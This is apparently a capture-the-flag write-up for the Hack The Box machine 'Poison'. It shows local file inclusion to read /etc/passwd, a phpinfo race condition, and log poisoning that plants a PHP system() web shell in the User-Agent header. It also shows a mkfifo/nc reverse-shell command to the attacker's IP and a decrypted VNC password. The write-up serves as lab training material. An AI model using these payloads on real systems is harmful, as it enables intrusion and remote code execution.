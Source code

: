 # Alternative way to exploit Poison

## Local File Inclusion (LFI)

Instead of finding the Base64-encoded file, there are other ways to get a shell on the box.

When looking at the _phpinfo.php_ there is a line that shows that the `file_uploads` function is active.
This means that by uploading a temporary file, _phpinfo.php_ will show where it is located and use a **Local File Inclusion** to execute it.

### Testing the LFI

Lets submit any filename to the application and send it through a proxy like **Burpsuite**:
```markdown
GET /browse.php?file=testing HTTP/1.1
Host: 10.10.10.84
(...)
```

When submitting a valid page like _index.php_, it gets executed and the output is shown.
Using PHP commands to display the source code of _index.php_:
```markdown
GET /browse.php?file=php://filter/convert.base64-encode/resource=index.php
```

After sending this request, it displays the source code of _index.php_ but Base64-encoded:
```markdown
PGh0bWw+Cjxib2R5Pgo8aDE+VGVtcG9yYXJ5IHdlYnNpdGUgdG8gdGVzdCBsb2NhbCAucGhwIHNjcmlwdHMuPC9oMT4KU2l0ZXMgdG8gYmUgdGVzdGVkOiBpbmkucGhwLCBpbmZvLnBocCwgbGlzdGZpbGVzLnBocCwgcGhwaW5mby5waHAKCjwvYm9keT4KPC9odG1sPgoKPGZvcm0gYWN0aW9uPSIvYnJvd3NlLnBocCIgbWV0aG9kPSJHRVQiPgoJU2NyaXB0bmFtZTogPGlucHV0IHR5cGU9InRleHQiIG5hbWU9ImZpbGUiPjxicj4KCTxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTdWJtaXQiPgo8L2Zvcm0+Cg==
```

The string can be decoded to show the source code:
```markdown
cat index.b64 | base64 -d
```

This also allows to get other files on the server like _/etc/passwd_ for example:
```markdown
GET /browse.php?file=/etc/passwd
```

This proofs that **LFI** is working.

### Code Execution with phpinfo

With `file_upload` enabled, it is possible to upload files that PHP accepts and those will be stored in a cached directory. When executing them with the LFI vulnerability, we get potential code execution.

This is explained in [this paper from InsomniaSec](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf).

The request method has to be _POST_ and the _Content-Type_ is also changed and the whole request looks like this:
Lets request the following POST data:
```markdown
POST /phpinfo.php HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.84/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=--Test
Content-Length: 0

----Test
Content-Disposition: form-data; name="anything"; filename="testfile"
Content-Type: text/plain

This is a test string
----Test
```

After sending the request and looking at the PHP variables, we see that the data is included in there:

![Phpinfo variables](https://kyuu-ji.github.io/htb-write-up/poison/poison_phpinfo-1.png)

The cached file has the name _/tmp/phpNdOnxX_ and will be there for a short time.
To access the cached file, we will use the script from the paper that will try to win a Race Condition. It can also be found in the [PayloadAllTheThings GitHub repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py).

The Python script has to be modified accordingly.
I used the _php-reverse-shell_ from **Laudanum** as the payload and my IP and port 9001 as the listener.
```markdown
python poison_phpinfolfi.py 10.10.10.84 100
```

After a while the listener on my IP and port 9001 spawns a reverse shell on the box!

### Code Execution with Log Poisoning

The LFI can also be used for **Log Poisoning**.
When looking at the log file _/var/log/httpd-access.log_ it also shows the User-Agent:
```markdown
10.10.14.39 - - [02/May/2020:10:59:24 +0200] "GET / HTTP/1.1" 200 289 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

It is possible to modify this with **Burpsuite**:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: Test'
```
```markdown
10.10.14.39 - - [02/May/2020:11:07:22 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 1657 "http://10.10.10.84/" "Test'"
```

When using PHP code in the User-Agent, it gets executed:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php echo('Test'); ?>
```

There are no PHP tags but instead just the _"Test"_ string.
```markdown
10.10.14.39 - - [02/May/2020:11:09:42 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 1953 "http://10.10.10.84/" "Test"
```

This means PHP Code Execution works and it is possible to run system commands:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php system($\_REQUEST['cmd']); ?>
```

Executing any system command:
```markdown
http://10.10.10.84/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=uname+-a
```
```markdown
10.10.14.39 - - [02/May/2020:11:16:11 +0200] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=uname+-a HTTP/1.1" 200 3172 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Lets execute a PHP reverse shell:
```markdown
GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=mkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+|nc+10.10.14.39+9002+>/tmp/f HTTP/1.1
```

The listener on my IP and port 9002 starts a reverse shell as the user _www_.

## Cracking the VNC password

The _secret_ file is an encrypted password but there are [tools on GitHub](https://github.com/jeroennijhof/vncpwd) to decrypt it:
```markdown
./vncpwd secret
```

The password is:
> VNCP@$$!
